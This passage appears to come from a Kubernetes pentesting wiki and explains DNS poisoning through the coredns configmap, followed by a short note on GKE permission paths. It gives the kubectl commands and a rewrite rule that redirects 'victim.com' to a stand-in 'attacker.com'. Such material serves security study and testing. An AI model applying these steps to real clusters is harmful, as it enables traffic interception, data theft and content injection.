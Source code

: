 If you have the permissions to modify the **`coredns` configmap** in the `kube-system` namespace, you can modify the address domains will be resolved to in order to be able to perform MitM attacks to **steal sensitive information or inject malicious content**.

The verbs needed are **`update`** and **`patch`** over the **`coredns`** configmap (or all the config maps).

A regular **coredns file** contains something like this:

```yaml
data:
  Corefile: |
    .:53 {
        log
        errors
        health {
           lameduck 5s
        }
        ready
        kubernetes cluster.local in-addr.arpa ip6.arpa {
           pods insecure
           fallthrough in-addr.arpa ip6.arpa
           ttl 30
        }
        prometheus :9153
        hosts {
           192.168.49.1 host.minikube.internal
           fallthrough
        }
        forward . /etc/resolv.conf {
           max_concurrent 1000
        }
        cache 30
        loop
        reload
        loadbalance
    }
```

An attacker could download it running `kubectl get configmap coredns -n kube-system -o yaml`, modify it adding something like `rewrite name victim.com attacker.com` so whenever `victim.com` is accessed actually `attacker.com` is the domain that is going to be accessed. And then apply it running `kubectl apply -f poison_dns.yaml`.

Another option is to just edit the file running `kubectl edit configmap coredns -n kube-system` and making changes.

### Escalating in GKE

There are **2 ways to assign K8s permissions to GCP principals**. In any case the principal also needs the permission **`container.clusters.get`** to be able to gather credentials to access the cluster, or you will need to **generate your own kubectl config file** (follow the next link).

> [!WARNING]
> When talking to the K8s api endpoint, the **GCP auth token will be sent**. Then, GCP, through the K8s api endpoint, will first **check if the principal** (by email) **has any access inside the cluster**, then it will check if it has **any access via GCP IAM**.\
> If **any** of those are **true**, he will be **responded**. If **not** an **error** suggesting to give **permissions via GCP IAM** will be given.

